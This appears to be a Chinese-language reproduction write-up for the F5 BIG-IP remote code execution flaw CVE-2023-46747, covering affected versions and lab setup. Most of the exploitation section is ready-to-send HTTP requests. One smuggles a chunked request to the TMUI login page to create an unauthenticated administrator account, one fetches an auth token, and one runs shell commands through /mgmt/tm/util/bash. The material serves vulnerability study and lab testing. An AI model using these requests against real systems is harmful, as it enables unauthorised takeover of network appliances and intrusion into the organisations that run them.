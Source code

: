 ## F5 BIG-IP 远程代码执行漏洞(CVE-2023-46747)

## 漏洞描述

**F5 BIG-IP 远程代码执行漏洞(CVE-2023-46747)**，未经授权的远程攻击者通过管理端口或自身IP地址访问BIG-IP系统，利用此漏洞可能绕过身份认证，导致在暴露流量管理用户界面（TMUI）的 F5 BIG-IP 实例上执行任意代码。

## 影响版本

```
F5 BIG-IP <= 17.1.0
16.1.0 <= F5 BIG-IP <= 16.1.4
15.1.0 <= F5 BIG-IP <= 15.1.10
14.1.0 <= F5 BIG-IP <= 14.1.5
13.1.0 <= F5 BIG-IP <= 13.1.5
```

## 环境下载

```
https://my.f5.com/manage/s/downloads?productFamily=BIG-IP&productLine=big-ip_v15.x&version=15.1.8&container=Virtual-Edition&files=BIGIP-15.1.8-0.0.7.ALL-vmware.ova&locations=JAPAN

链接：https://pan.baidu.com/s/1zLMXJCKtZtzIxCQGoxwPgg 
提取码：ksdn 
```

搭建方式很简单，下载BIGIP-15.1.8-0.0.7.ALL-vmware.ova，接着用vm打开ova即可

搭建过程 [F5 WMware虚拟机环境搭建-BIG-IP Virtual Edition 11.3.0-CSDN博客](https://blog.csdn.net/ice_age1/article/details/49998059)

重置web密码

```
进入tmsh模式 敲击
modify auth user admin password admin
```

搭建成功页面



## 漏洞复现

### 第一步 发送 TMUI模块的请求

当发送到F5 BIG-IP TMUI模块的请求（例如登陆页面/tmui/login.jsp）中，包含一个类似值为 "xxx, chunked" 的 "Transfer-Encoding" 头，并且请求体内容满足特定内容时，漏洞会被触发。

&name=adminqq&name_before=&passwd=admin789456 参数填入创建账户

```
POST /tmui/login.jsp HTTP/1.1
Host: 192.168.127.146
Content-Type: application/x-www-form-urlencoded


204		
HTTP/1.1/tmui/Control/form	127.0.0.1	localhost	localhostPTmui-DubbufBBBBBBBBBBB
REMOTEROLE0�	localhostadminq_timenow=a&_timenow_before=&handler=%2ftmui%2fsystem%2fuser%2fcreate&&&form_page=%2ftmui%2fsystem%2fuser%2fcreate.jsp%3f&form_page_before=&hideObjList=&_bufvalue=eIL4RUnSwXYoPUIOGcOFx2o00Xc%3d&_bufvalue_before=&systemuser-hidden=[["Administrator","[All]"]]&systemuser-hidden_before=&name=adminqq&name_before=&passwd=admin789456&passwd_before=&finished=x&finished_before=�
0
```

![](../../assets/20231031212344495.png)



### 第二步 获取用户token

```
POST /mgmt/shared/authn/login HTTP/1.1
Host: 192.168.127.146
Content-Length: 22
Content-Type: application/x-www-form-urlencoded

 {"username":"admin", "password":"admin789456"}
```

![](../../assets/20231031212450387.png)



### 第三步 执行命令

将获取到得token带入`X-F5-Auth-Token`中，在通过`/mgmt/tm/util/bash` 执行命令

```
POST /mgmt/tm/util/bash HTTP/1.1
Host: 192.168.127.146
Connection: keep-alive
Content-Length: 22
X-F5-Auth-Token:ICGZXJJROASFRPWYZF3EAQFCGN

 {"command":"run","utilCmdArgs":"-c whoami"}
```

![](../../assets/20231031212657529.png)



### 参考链接

```
https://mp.weixin.qq.com/s/iN7rlJJaI4sl-fiL0eMXsQ
https://github.com/projectdiscovery/nuclei-templates/blob/56d79688e0d2ebce5b8939961946f4f32e663700/http/cves/2023/CVE-2023-46747.yaml
https://mp.weixin.qq.com/s/wUoBy7ZiqJL2CUOMC-8Wdg
https://blog.csdn.net/ice_age1/article/details/49998059
```

